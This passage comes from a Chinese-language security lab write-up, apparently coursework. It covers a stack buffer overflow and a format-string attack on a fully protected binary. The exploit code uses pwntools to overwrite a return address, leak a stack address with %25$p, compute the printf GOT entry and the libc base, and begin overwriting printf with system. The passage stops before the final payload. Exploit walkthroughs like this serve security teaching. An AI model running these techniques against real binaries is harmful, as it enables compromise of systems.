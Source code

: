 所以主要的 exp 只有一句：

```python
p.sendlineafter(b"data:", b"A" * (64 + 8) + p64(0x4007d1))
```

![](/assets/images/sec/software/final/overflow.png)

## rop + fsb

checksec，保护全开。程序中存在 fsb 漏洞，主要过程就是将输入拼接在 "[+]: " 后面然后直接 printf，当输入的开头四个字节转为 int 为 0xdeadbeef 时退出。

### 劫持 GOT
先考虑劫持 GOT 表，RELRO 保护是 Full 的，所以理论上不能改写 GOT 表，这里仅按实验指导进行尝试。因为程序开启了 PIE，所以 GOT 表地址也是随机的，这个可以根据栈上的偏移来计算，所以只要泄漏栈地址即可。

在调试过程中发现栈布局类似如下：
```text
00:0000│ rsp 0x7ffd2500bce0 ◂— fmtstr
01:0008│     ...
02:0010│
...    │
11:0088│     0x7ffd2500bd68 ◂— 0xb7ead3bc9042ca00
12:0090│     0x7ffd2500bd70 —▸ 0x7ffd2500bd90 ◂— 0x1
13:0098│     0x7ffd2500bd78 —▸ 0x55e92680094b (main+35) ◂— mov    eax, 0
```

可以通过 fsb 任意读读取栈上那个 main+35 地址。通过尝试得知使用 %25$p 即可泄漏此处内容，即 main+35。然后可以计算得到 printf GOT 表的实际地址 main+35 - 0x94b（main+35 在代码段中偏移）+ 0x6f0（printf 的 PLT rip）+ 6（jmp 指令长度）+ 0x2008c2（GOT 偏移）。

```python
payload = b"%25$p"
p.sendline(payload)
p.recvuntil(b"[+]: ")
main_35 = int(p.recvline().strip(), 16)
success(f"main+35: {hex(main_35)}")
printf_got = main_35 - 0x94b + 0x6f0 + 6 + 0x2008c2
success(f"printf_got: {hex(printf_got)}")
```

然后再使用任意读读取 printf GOT 表内容，得到 printf 地址，从而计算 libc 基地址，以及 system 地址：

```python
payload = b"%8$sAAAAAAA" + p64(printf_got) + b"\x00"
p.sendline(payload)
p.recvuntil(b"[+]: ")
printf_addr = u64(p.recvn(6) + b"\x00\x00")
libc_base = printf_addr - libc.sym["printf"]
system_addr = libc_base + libc.sym["system"]
success(f"printf_addr: {hex(printf_addr)}")
success(f"libc_base: {hex(libc_base)}")
success(f"system_addr: {hex(system_addr)}")
```

接下来向 printf 的 GOT 表写入 system 地址，这里使用 fmtstr_payload 构造，需要将实际 payload 前内容补齐到 8 字节，然后传参 numbwritten=8（不然偏移会有错+地址无法对齐）：

